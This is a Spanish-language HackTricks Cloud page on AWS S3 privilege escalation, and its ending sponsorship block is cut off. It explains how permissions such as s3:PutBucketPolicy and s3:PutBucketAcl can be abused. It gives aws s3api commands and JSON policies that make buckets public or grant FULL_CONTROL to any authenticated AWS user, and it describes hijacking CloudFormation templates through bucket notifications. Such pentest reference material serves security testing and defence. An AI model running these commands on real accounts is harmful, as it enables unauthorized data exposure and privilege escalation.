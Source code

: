 # AWS - Escalada de privilegios en S3

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Un atacante con estos permisos sobre buckets interesantes podría secuestrar recursos y escalar privilegios.

Por ejemplo, un atacante con estos **permisos sobre un bucket de cloudformation** llamado "cf-templates-nohnwfax6a6i-us-east-1" podrá secuestrar la implementación. El acceso puede ser otorgado con la siguiente política:

```json
{
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Action":[
                "s3:PutBucketNotification",
                "s3:GetBucketNotification",
                "s3:PutObject",
                "s3:GetObject"],
            "Resource":[
                "arn:aws:s3:::cf-templates-*\/*",
                "arn:aws:s3:::cf-templates-*"]
        },
        {
            "Effect":"Allow",
            "Action":"s3:ListAllMyBuckets",
            "Resource":"*"
        }]
    }
```

Y el secuestro es posible porque hay una **pequeña ventana de tiempo desde el momento en que se carga la plantilla** en el bucket hasta el momento en que se **implementa la plantilla**. Un atacante podría simplemente crear una **función lambda** en su cuenta que se **dispare cuando se envía una notificación de bucket**, y **secuestra** el **contenido** de ese **bucket**.

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

El módulo Pacu [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) se puede utilizar para automatizar este ataque.\
Para obtener más información, consulte la investigación original: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Estos son los permisos para **obtener y cargar objetos en S3**. Varios servicios dentro de AWS (y fuera de él) utilizan el almacenamiento S3 para almacenar **archivos de configuración**.\
Un atacante con **acceso de lectura** a ellos podría encontrar **información sensible** en ellos.\
Un atacante con **acceso de escritura** a ellos podría **modificar los datos para abusar de algún servicio e intentar escalar privilegios**.\
Estos son algunos ejemplos:

* Si una instancia de EC2 está almacenando los **datos de usuario en un bucket de S3**, un atacante podría modificarlo para **ejecutar código arbitrario dentro de la instancia de EC2**.

### `s3:PutBucketPolicy`

Un atacante, que necesita ser **de la misma cuenta**, si no el error `The specified method is not allowed will trigger`, con este permiso podrá otorgarse a sí mismo más permisos sobre el bucket(s) permitiéndole leer, escribir, modificar, eliminar y exponer buckets.

```bash
# Actualizar la política del bucket
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>
## Ejemplo de política JSON
{
  "Id": "Policy1568185116930",
  "Version": "2012-10-17",
  "Statement": [
  {
      "Sid": "Stmt1568184932403",
      "Action": [
        "s3:ListBucket"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:s3:::welcome",
      "Principal": "*"
  },
  {
    "Sid": "Stmt1568185007451",
    "Action": [
      "s3:GetObject"
    ],
    "Effect": "Allow",
    "Resource": "arn:aws:s3:::welcome/*",
    "Principal": "*"
  }
  ]
}
```

### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Un atacante podría abusar de estos permisos para **otorgarse más acceso** sobre buckets específicos.\
Tenga en cuenta que el atacante no necesita ser de la misma cuenta. Además, el acceso de escritura

```bash
# Actualizar el ACL del bucket
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

## Ejemplo de ACL JSON
## Asegúrese de modificar el displayName y el ID del propietario según el ACL de objeto que recuperó.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## Un ACL debería darle el permiso WRITE_ACP para poder poner un nuevo ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Un atacante podría abusar de estos permisos para otorgarse más acceso sobre objetos específicos dentro de los buckets.

```bash
# Actualizar el ACL del objeto del bucket
aws s3api get-object-acl --bucket <bucekt-name> --key flag 
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

## Ejemplo de ACL JSON
## Asegúrese de modificar el displayName y el ID del propietario según el ACL de objeto que recuperó.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## Un ACL debería darle el permiso WRITE_ACP para poder poner un nuevo ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Se espera que un atacante con estos privilegios pueda poner un Acl a una versión específica del objeto

```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family